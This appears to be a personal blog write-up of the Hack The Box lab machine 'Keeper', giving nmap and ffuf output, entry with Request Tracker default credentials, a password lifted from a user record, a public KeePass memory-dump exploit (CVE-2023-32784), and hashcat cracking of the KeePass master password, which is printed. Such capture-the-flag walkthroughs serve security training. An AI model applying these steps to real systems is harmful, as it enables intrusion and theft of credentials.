



+++
title = 'Keeper'
date = 2024-08-19T10:18:56-03:00
draft = false
+++

## Machine info


https://app.hackthebox.com/machines/556

- Difficulty: Easy
- OS: Linux
- Release date: 12 Aug, 2023
- Rooted on: 15 Dec, 2023

## Foothold/User

nmap shows webserver running


```
┌──(k㉿box)-[~/ctfs/htb/machines/easy/Keeper]
└─$ cat nmap/complete.nmap 
# Nmap 7.94 scan initiated Sun Dec  3 08:31:22 2023 as: nmap -sCV -p- -oN nmap/complete.nmap 10.10.11.227
Nmap scan report for keeper.htb (10.10.11.227)
Host is up (0.11s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec  3 08:33:59 2023 -- 1 IP address (1 host up) scanned in 157.54 seconds
```


The website asks us to go to the subdomain tickets.


After adding both the keeper domain and the subdomain above to `/etc/hosts`, we get this login page for request tracker.



Fuzzing doesn’t show good results, just some error pages and different versions for mobile devices.


```bash
$ ffuf -u http://tickets.keeper.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -o rtdir.txt -fc 302
```
```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://tickets.keeper.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
 :: Output file      : rtdir.txt
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

m                       [Status: 200, Size: 2309, Words: 247, Lines: 112, Duration: 423ms]
l                       [Status: 403, Size: 0, Words: 1, Lines: 1, Duration: 407ms]
rte                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 554ms]
rt                      [Status: 200, Size: 4236, Words: 407, Lines: 154, Duration: 549ms]
                        [Status: 200, Size: 4236, Words: 407, Lines: 154, Duration: 564ms]
rtl                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 518ms]
rte-snippets            [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 516ms]
autohandler             [Status: 403, Size: 0, Words: 1, Lines: 1, Duration: 528ms]
rtf                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 490ms]
rtv                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 498ms]
rtm                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1007ms]
rti                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1027ms]
rtr                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1021ms]
rtb                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1088ms]
rtc                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1086ms]
rtq                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1108ms]
rts                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1107ms]
                        [Status: 200, Size: 4236, Words: 407, Lines: 154, Duration: 1160ms]
rt3                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1198ms]
rta                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1194ms]
rtds                    [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1183ms]
rteeditor               [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1144ms]
rtest                   [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1158ms]
rtg                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1126ms]
rtl2                    [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1135ms]
rttc                    [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1104ms]
rtw                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1095ms]
                        [Status: 200, Size: 4236, Words: 407, Lines: 154, Duration: 1195ms]
:: Progress: [62284/62284] :: Job [1/1] :: 35 req/sec :: Duration: [0:25:59] :: Errors: 43 ::
```


After some research, found out that RT has default credentials `root:password`

https://forum.bestpractical.com/t/forgot-admin-password-of-rt/33451

With that, we get access to an admin panel.


I tried finding any input field where I could try uploading a reverse shell, but everything related to input or creation in general resulted in errors.

Under Admin > Users > Select, we get options for a user called `lnogaard`. On their page, there’s a field with their password.


I used that password along with the username to successfully SSH into the machine.


## Root

I exfiltrated that `RT30000.zip` file, which contained a KeePass database and a Mini Dump crash report.


I spent a lot of time here trying to analyze the hexdump of the `.kdbx` file in order to find the KeePass version, and then try looking for registered vulnerabilities for it, and after a while decided to just try running the exploits I found right away.

I found [this .NET PoC](https://github.com/vdohney/keepass-password-dumper) for CVE-2023-32784, that was a vuln affecting KeePass versions prior to `2.54`. I followed the instructions on the documentation and ran the exploit against the mini dump file, which gave me some possible master passwords for the encrypted DB.


Unfortunately, it doesn’t gives us the first character, and gives only a couple of possibilities for the second, but from the user page of Lnorgaard on Request Tracker, I knew that the language of this was Danish. So I used google translate to try guessing the first two characters.



I also ran `keepass2john` against the `.kdbx` file, which gave me a hash of the master password. I could use it to try brute-forcing the first two characters and have some confirmation.

```
passcodes:$keepass$*2*60000*0*5d7b4747e5a278d572fb0a66fe187ae5d74a0e2f56a2aaaf4c4f2b8ca342597d*5b7ec1cf6889266a388abe398d7990a294bf2a581156f7a7452b4074479bdea7*08500fa5a52622ab89b0addfedd5a05c*411593ef0846fc1bb3db4f9bab515b42e58ade0c25096d15f090b0fe10161125*a4842b416f14723513c5fb704a2f49024a70818e786f07e68e82a6d3d7cdbcdc
```


In order to crack it with hashcat though, we just have to remove that `passcodes:` prefix.

Here’s the wordlist I created using ChatGPT, assuming that the first exploit’s guess of the second character was right. I just used every single Danish alphabet character in the beginning.

```
aødgrød med fløde
bødgrød med fløde
cødgrød med fløde
dødgrød med fløde
eødgrød med fløde
fødgrød med fløde
gødgrød med fløde
hødgrød med fløde
iødgrød med fløde
jødgrød med fløde
kødgrød med fløde
lødgrød med fløde
mødgrød med fløde
nødgrød med fløde
oødgrød med fløde
pødgrød med fløde
qødgrød med fløde
rødgrød med fløde
sødgrød med fløde
tødgrød med fløde
uødgrød med fløde
vødgrød med fløde
wødgrød med fløde
xødgrød med fløde
yødgrød med fløde
zødgrød med fløde
æødgrød med fløde
øødgrød med fløde
åødgrød med fløde
```

```bash
$ hashcat -m 13400 keehash.txt wordlist.txt --show                                                                       
```
```
$keepass$*2*60000*0*5d7b4747e5a278d572fb0a66fe187ae5d74a0e2f56a2aaaf4c4f2b8ca342597d*5b7ec1cf6889266a388abe398d7990a294bf2a581156f7a7452b4074479bdea7*08500fa5a52622ab89b0addfedd5a05c*411593ef0846fc1bb3db4f9bab515b42e58ade0c25096d15f090b0fe10161125*a4842b416f14723513c5fb704a2f49024a70818e786f07e68e82a6d3d7cdbcdc:rødgrød med fløde
```


With that, we have confirmed that the google translate suggestion was indeed right.

Now we can use that password to open that `.kdbx` file using KeePassXC.



Under network, we have a root password, which I tried using to ssh as root, but didn't have success.

We also had this strange ssh key. I googled “PUTTY” and discovered it is an ssh client, just like OpenSSH, but it has this weird format with both private and public keys in the same file.

I pasted this note into a `key.ppk` file and downloaded putty for Linux, which I could then use to get root access and send the flag to my regular shell using netcat. I did that last step because somehow I couldn't select the `cat root.txt` output using my cursor in the putty shell.


That was the machine. I found it fun to pwn, but it got really annoying in some parts. For example, I didn’t know at first that I had to use KeePassXC with `.kdbx` files and lost a lot of time trying to run keepass2 on it. Anyway, it was cool.